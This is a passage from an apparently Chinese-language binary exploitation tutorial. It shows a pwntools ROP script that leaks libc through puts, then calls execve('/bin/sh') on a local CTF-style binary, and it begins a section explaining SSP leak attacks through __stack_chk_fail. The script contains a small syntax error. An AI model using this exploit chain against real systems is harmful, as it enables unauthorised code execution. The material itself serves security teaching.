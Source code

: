 ```python
from pwn import *
context.log_level = 'debug'

p = process('./a.out')
#p = gdb.debug("./a.out")
e = ELF('./a.out')

def sl(content):
 p.sendline(content)
def r_a64(signal):
 return u64(p.recvuntil(signal)[-6:].ljust(8,'\x00'))

puts_got = e.got['puts']
puts_plt = e.plt['puts']
pop_rdi = 0x401363
main = 0x4011D6

payload1 = 0x30 * 'a' +  + 0x8 * 'b' 
payload2 = p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
payload = payload1 + payload2.ljust(2104,'a')
sl(payload)
puts = r_a64('\x7f')
success('puts: ' + hex(puts))

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#libc = ELF('./libc-2.31.so')
libc_base = puts - libc.symbols['puts']
exe = libc_base + libc.symbols['execve']
binsh = libc_base + libc.search('/bin/sh').next()
success('libc_base: ' + hex(libc_base))

rdx_r12 = 0x11c371 + libc_base
rsi = 0x27529 + libc_base
payload = 0x30 * 'a' + 0x8 * 'b' + p64(pop_rdi) + p64(binsh) + p64(rsi) + p64(0) + p64(rdx_r12) + p64(0) * 2 + p64(exe) + p64(main)
sl(payload)

p.interactive()
```

### 5.SSP leak 攻击

除了通过各种方法泄露canary之外，我们还有一个可选项——利用`__stack_chk_fail`函数泄露信息。这种方法作用不大，没办法让我们getshell。但是当我们需要泄露的flag或者其他东西存在于内存中时，我们可能可以使用一个栈溢出漏洞来把它们泄露出来。这个方法叫做 **SSP(Stack Smashing Protect) Leak**。

简单的来说，SSP leak 就是通过故意触发canary的保护来输出我们想要地址上的值。

我们先来回顾一下canary起作用到程序退出的流程。首先，canary被检测到修改，函数不会经过正常的流程结束栈帧并继续执行接下来的代码，而是跳转到`call __stack_chk_fail`处，然后对于我们来说，执行完这个函数，程序退出，屏幕上留下一行  
**\*\*\* stack smashing detected \*\*\*: \[XXX\] terminated** 。如：

![image-20220201102707231](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-b49dfc8963c26f56d68126a23a6ed51c3fbf7564.png)
